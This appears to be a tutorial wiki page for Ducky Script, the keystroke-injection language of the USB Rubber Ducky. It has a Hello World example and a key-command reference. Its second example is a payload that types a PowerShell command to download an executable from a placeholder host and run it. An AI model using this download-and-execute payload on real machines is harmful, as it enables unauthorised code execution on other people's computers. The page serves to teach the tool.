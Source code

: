 # Introduction #
Since first time Ducky users are unfamiliar with Ducky Script, below is a brief summary (with examples) on how to code in Ducky Script.

# Example 1 - Hello World #
The Ducky fires the payload immediately, so you need an initial delay for the OS to recognize and allow the Ducky to proceed as a keyboard, in this example we use a delay of 3secs (3000msecs) for the Windows OS (other OS's may be quicker).

The steps of this example can be broken down into:
  * Initial Delay for the OS
  * GUI R triggers the run-box
  * Small delay to wait for the run-box to open
  * Ducky types notepad ENTER to load notepad
  * Small delay to wait for notepad to open
  * Ducky then types an arbitrary string into notepad

```
DELAY 3000
GUI R
DELAY 200
STRING notepad
ENTER
DELAY 200
STRING Hello World!!!
ENTER
```

# Example 2 - Download & Execute #
An example of using Powershell to download a file from the web and then execute it.
```
DELAY 3000
GUI r
DELAY 100
STRING powershell (new-object System.Net.WebClient).DownloadFile('http://example.com/bob.old','%TEMP%\bob.exe');
DELAY 100
STRING Start-Process "%TEMP%\bob.exe"
ENTER
```
# Other Examples #
The community is storing generated payloads on the following wiki-page:
  * https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payloads

# Command Breakdown #
  * DELAY _x msecs_ - Delay in milli-secs
  * STRING _xyz_ - types following characters
  * GUI - Windows Menu Key
  * GUI R - Windows Run box
  * Command - OSX Command Key
  * UP | UPARROW - Up Key
  * DOWN | DOWNARROW - Down Key
  * LEFT | LEFTARROW - Left Key
  * RIGHT | RIGHTARROW - Right Key
  * CAPS |CAPSLOCK - Capslock Key
  * ENTER - Return/Enter key
  * SPACE - Spacebar
  * REPEAT _x_ - Repeat previous command X times.
You can even use some (but not all) two or three key-combinations:
  * SHIFT-ENTER
  * CTRL-ALT-DEL
  * ALT-F4